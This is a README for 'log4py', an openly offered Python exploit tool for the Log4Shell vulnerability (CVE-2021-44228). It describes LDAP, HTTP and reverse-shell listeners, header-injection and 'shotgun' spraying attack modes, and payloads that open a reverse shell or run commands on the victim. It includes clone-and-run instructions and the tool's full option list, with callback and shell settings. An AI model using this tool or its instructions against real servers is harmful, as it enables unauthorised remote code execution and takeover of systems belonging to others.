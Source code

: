 # log4py
Pure python reverse shell for CVE-2021-44228 log4shell. Big thanks to [dotPY-hax/log4py](https://github.com/dotPY-hax/log4py) for the original pure python PoC and pre-compiled java bytecode.

## Features:
* Pure python3, no java required!
* Zero dependencies! Simply download and execute `python main.py`
* Built in LDAP, HTTP and ReverseShell listeners
* Easily custimizable command line arguments
* Automatic random class renaming to prevent cases where classes are cached by the java runtime
* Different built-in attack modules:
	* Manual - Simply gives you the JNDI payload link for you to manually post to the target [default]
	* Header Attack - Specify URL, Method and Header to send the JNDI payload in
	* Shotgun - Specify URL and spray the JNDI header as many places as possible, hoping that one of them triggers loggin to log4j
* Different Payloads:
	* Pure Java Reverse Shell - Optionally specify shell to execute commands with. The log4py has built in interactive reverse shell listener! [default]
	* Execute Shell Command - Specify single command to execute on the target


# Usage:
Download repository:
```bash
git clone https://github.com/ItemizeNTNU/log4py
cd log4py
```
Then to run the exploit:
```bash
python3 main.py --ip <your callback ip>
```
Example output:
![Example outout of reverse shell](./docs/images/reverse-shell.png)

Then simply upload the JNDI string to the vulnerable log4j application.

The script starts 3 servers on your machine with default ports:
* LDAP server on port 49501
* HTTP server on port 49502
* Reverse Shell server on port 49503

# Options
Use `python3 main.py --help` for help on different options:
```java
usage: main.py [-h] [--ip IP] [--ldap-port {1..65535}] [--http-port {1..65535}] [--attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}] [--payload {ReverseShell,ShellCommand}] [--once]
               [--specific-listener] [--list-attacks] [--list-payloads] [--attack-http-header-method {GET, POST, OPTIONS, ...}] [--attack-http-header-header HEADER_NAME]
               [--payload-reverse-shell-port {1..65535}] [--payload-reverse-shell-shell SHELL] [--payload-shell-command-cmd CMD]

Pure python Log4Shell Exploiter

optional arguments:
  -h, --help                                                  show this help message and exit
  --ip IP                                                     Callback ip that the victim server can reach you at (default: auto)
  --ldap-port {1..65535}                                      Port to listen at for the LDAP server (default: 49501)
  --http-port {1..65535}                                      Port to listen at for the HTTP server (default: 49502)
  --attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}  Callback ip that the victim server can reach you at (default: ManualAttack)
  --payload {ReverseShell,ShellCommand}                       Java payload class to send (default: ReverseShell)
  --once                                                      If true, listeners will only listen for one connection then close (default: False)
  --specific-listener                                         If true, only listen on the specific --ip, else listen on 0.0.0.0 (default: False)
  --list-attacks                                              List all available attacks (default: False)
  --list-payloads                                             List all available payloads (default: False)
  --attack-http-header-method {GET, POST, OPTIONS, ...}       HTTP method to use for the HTTPHeaderAttack (default: GET)
  --attack-http-header-header HEADER_NAME                     Header to inject the JNDI payload to (default: None)
  --payload-reverse-shell-port {1..65535}                     Port to listen at for the reverse shell payload (default: 49503)
  --payload-reverse-shell-shell SHELL                         Shell to execute interactive commands with (default: /bin/sh)
  --payload-shell-command-cmd CMD                             Command to execute on the victim (default: None)
```

# Todo:
* More custimizable java payloads, possible optional integration with javac for auto compilation